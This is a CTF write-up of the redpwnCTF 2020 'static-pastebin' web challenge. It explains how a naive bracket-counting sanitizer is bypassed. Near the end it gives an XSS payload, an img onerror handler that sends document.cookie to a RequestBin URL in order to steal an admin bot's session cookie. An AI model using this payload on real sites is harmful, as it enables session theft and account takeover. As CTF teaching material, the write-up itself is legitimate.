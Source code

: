 ```yaml
---
layout: post
title: redpwnCTF 2020 - static-pastebin
excerpt: An in-depth look at static-pastebin from redpwnCTF 2020. Huge thanks to redpwn for this awesome event!
date: 2020-06-25
tags: redpwnCTF 2020, Web, JavaScript, Cookie Stealing, XSS, RequestBin
author: Noxtal
---
```

 <p align="center">
  <img height=85 src="https://i.imgur.com/hE3Cc7M.png"
 </p>

 An in-depth look at static-pastebin from redpwnCTF 2020. Huge thanks to **redpwn** for this awesome event!

-----

# Description
Web, 373 points</br>
Challenge author: BrownieInMotion

> I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it [here]("https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin")

*Note: if this challenge is not disponible at the time you read this writeup, I've made a similar challenge hosted on my domain. You can find it [here](https://challenges.noxtal.com/redbook).*

# Solution
When we open the challenge's website, we can see a pastebin-like website on which you can create a *paste* and "publish it to the internet". Actually, after analyzing the code a bit, we can find that the *paste*'s URL is only `/paste/#` appended with the paste itself encoded as base64.

We have only got a text input and a button that allows us to reflect what we have typed on another page. This is a perfect playground for XSS. If you don't know XSS yet, I really suggest you learn more about it, as it is a really common attack in real-life scenarios. You can learn more about it on my [learning platform](https://learn.noxtal.com).

Let's test this idea by trying to inject an h1 tag in the *paste*.

![h1 test](https://i.imgur.com/bIM7b3n.png)

Weirdly, it seems like the h1 tag wasn't reflected on the *paste*. That doesn't mean XSS is not possible, it only means that there may be a sanitizer implemented that we need to bypass. By looking at the source provided in Chrome's Developer Tools, we can find a JavaScript file named *script.js*.

```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

There is the sanitizer, the `clean()` function. As you can probably see, this function removes (or unless tries) to remove every string surrounded by brackets, thus HTML tags. 

## Sanitizer Bypass
We now need to bypass the sanitizer. Let's take a look at the code to figure out how to bypass it. The main loop loops over each character of the *paste*. Then comes the filters: there is a variable named `brackets` which keeps track of if the current character is in between brackets or not. If a less than bracket sign is encountered, this count goes up by 1. Else, if a greater than sign appears, the count goes down by 1. If the count is equal to 0, the current character is reflected on the *paste*. 

After a few bypass attempts, we can find that putting a greater than sign in front of the tag we want to inject, it will actually be reflected. This comes from the fact that this sign makes the count go down by 1, thus when the less than sign will be encountered the `brackets` variable is going to equal zero.

The only con with this technique is that we can only pass one tag, so no classic opening and closing tags. This is not really a problem when using *img* tags, as you will see later on.

## Cookie Stealing
In the challenge's description, we can see we are given an admin bot. The flag must be contained in that admin user. One of the main use of XSS is stealing cookies, meaning we may need to steal the admin bot's cookie. To steal cookies, we only need to inject a tag that requests a page we own with the cookies in the query and give that to the user we want to steal cookies from. This process can be done easily by the use of RequestBin.

RequestBin is a web application allowing you to create a special URL that logs every request made to it so you can analyze them. If we request a RequestBin URL and append `document.cookie` to it, we should get a request logged containing the cookie in the query logged. This is the final payload I came up with. It makes use of an image tag with the `src` parameter set to x and the `onerror` parameter to the JavaScript code we want to execute (in our case requesting the RequestBin link). The `src` parameter will create an error because it was set to an arbitrary value and will trigger the code specified in the `onerror` parameter.

```html
><img src=x onerror=this.src="REQUESTBIN_URL"+document.cookie/>
```

We finally need to put the payload in the paste and give the corresponding URL to the admin bot and we are done! The flag can be found as expected in the admin cookies.
![flag](https://i.imgur.com/JTGRrrh.png)

That's all we got to do to solve this challenge. RedpwnCTF was really fun, even if the challenges were harder than other CTFs I played. I enjoyed doing the web challenges. Huge thanks to **redpwn** for this awesome event. 

If this challenge is not disponible at the time you read this writeup, I've made a similar challenge hosted on my domain. You can find it [here](https://challenges.noxtal.com/redbook).

If you have any questions, feel free to contact me via [Twitter](https://twitter.com/noxtal_) or using any of the methods listed [here](https://writeups.noxtal.com/#/pages/about).